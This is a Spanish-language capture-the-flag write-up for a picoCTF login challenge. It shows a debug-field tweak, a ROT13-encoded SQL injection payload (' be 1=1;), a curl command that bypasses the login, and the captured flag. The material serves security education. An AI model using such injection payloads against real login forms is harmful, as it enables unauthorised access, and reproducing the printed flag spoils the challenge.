 ## Objetivo
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/40742/` ([link](https://jupiter.challenges.picoctf.org/problem/40742/)) or http://jupiter.challenges.picoctf.org:40742. Try to see if you can login as admin!
## Solución 1
- Ingresamos a la pagina, nos fuimos al login e inspeccionamos la pagina.
- Nuevamente modificamos el tipo para que sea visible y cambiamos su valor por 1.
```bash
<input type="hidden" name="debug" value="0">
<input name="debug" value="1">
```
- Utilizamos las diferentes formas aprendidas para obtener la bandera, pero en este caso solo al campo que nos aparece que es el password.
```
password: ' or 1=1;
SQL query: SELECT * FROM admin where password = '' be 1=1;
```
- Descubrimos que lo que le enviamos lo transforma con el ROT13, así que utilizando CyberChef obtenemos la forma en ROT13 del `' or 1=1;` y lo que nos genere se lo copiamos como el password y ya obtenemos la bandera.
```bash
password: ' be 1=1;
SQL query: SELECT * FROM admin where password = '' or 1=1;'

# Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_4424e7af}
```
## Solución 2
```bash
armandoPC-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/40742/login.php -d "password=' be 1=1;&debug=1"
<pre>password: ' be 1=1;
SQL query: SELECT * FROM admin where password = '' or 1=1;'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_4424e7af}</p>armandoPC-picoctf@webshell:~$ 
```
## Notas Adicionales
## Referencias
